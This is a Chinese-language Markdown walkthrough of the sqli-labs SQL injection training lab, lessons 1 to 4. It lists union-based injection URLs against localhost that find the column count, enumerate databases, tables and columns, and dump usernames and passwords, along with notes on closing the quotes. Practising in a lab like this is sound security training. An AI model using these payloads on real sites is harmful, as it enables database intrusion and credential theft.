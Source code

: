 # sqli-labs

-    ##  less1

     -  判断是否可以注入
     -  判断列数  
        - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 4 -- a
        - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 3 -- a
        - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1'union select 1,2,3 -- +
     - 爆库
       - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- +
     - 爆库下的表  
       -  http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' -- +
     - 表下的列
        - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(column_name),3 from information_schema.columns where table_name='users' -- a
     - result
       - http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(username),GROUP_CONCAT(password) from users -- a
-    ##  less2
     - 与less1相同，只需要去掉      <b> '</b>       即可
-    ##  less3
     - $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
     - 需要闭合 &emsp;<b>')</b>

-    ##  less4
     -  对于字段是int类型的，如果你传入字符串（无论是在select, insert 还是 update)，他会尝试转为数字的
     -   $id = '"' . $id . '"';
     -   $sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
     -  如此闭合   
		http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-4/?id=1") order by 3  -- a



